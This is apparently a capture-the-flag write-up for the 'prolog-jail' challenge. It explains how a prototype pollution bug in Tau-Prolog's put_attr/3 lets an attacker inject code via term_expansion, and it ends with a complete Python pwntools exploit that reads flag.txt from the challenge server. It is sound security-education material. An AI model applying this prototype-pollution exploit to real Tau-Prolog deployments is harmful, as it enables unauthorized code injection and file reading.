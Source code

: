 # prolog-jail

## Description

Escape from prolog!

## Writeup

I'm sorry for all the prolog lovers - this is actually a node jail.

Tau-prolog has a prototype pollution vulnerability in `put_attr/3`. [(Source code)](https://github.com/tau-prolog/tau-prolog/blob/5bd606a255910d8e34ff1d721e80969af294b64c/modules/core.js#L3397). You can set any field of  `Object.prototype`, but you can only set `Term` class as a value.

In tau-prolog, there is a macro called `term_expansion/2`. (See [SWI Prolog documentation](https://www.swi-prolog.org/pldoc/man?predicate=term_expansion/2)) When `term_expansion/2` is defined, Tau-Prolog executes the following query for every facts and rules:

```prolog
<module name>:term_expansion(<rule or fact>, X).
```
Then, if the result for variable `X` is a rule or fact, it will be added to the module.

By ensuring `thread.session.modules[context_module].rules["term_expansion/2"]` and `thread.session.modules[context_module].rules["term_expansion/2"].length` not `undefined` with prototype pollution, the expansion will occur even if `term_expansion` is not defined.

By overriding `opts.context_module` with prototype pollution, you can inject any code when this occurs.[(Source code)](https://github.com/tau-prolog/tau-prolog/blob/5bd606a255910d8e34ff1d721e80969af294b64c/modules/core.js#L1104) You can even comment out the following code by inserting `%` at the end.

 Use `open/4` and `get_char/2` to read the character of the `flag.txt` one by one.

Here's the full exploit.

```python
from pwn import *
io = remote("localhost", 5000)
inj = f"X=(user:flag(Y) :- open(\\'flag.txt\\', read, Z),{''.join([f'get_char(Z, Y{i}),' for i in range(50)])}Y=[{','.join([f'Y{i}' for i in range(50)])}])."
payload = f"""
put_attr(__proto__, context_module, '{inj}%').
put_attr(__proto__, '{inj}%', x).
put_attr(__proto__, rules, x).
put_attr(__proto__, modules, x).
put_attr(__proto__, 'term_expansion/2', x).
put_attr(__proto__, length, 3).    
""".strip().replace("\n", "")
io.sendlineafter(b"Input query: ", payload.encode())
io.recvline()
print(io.recvline().decode())
```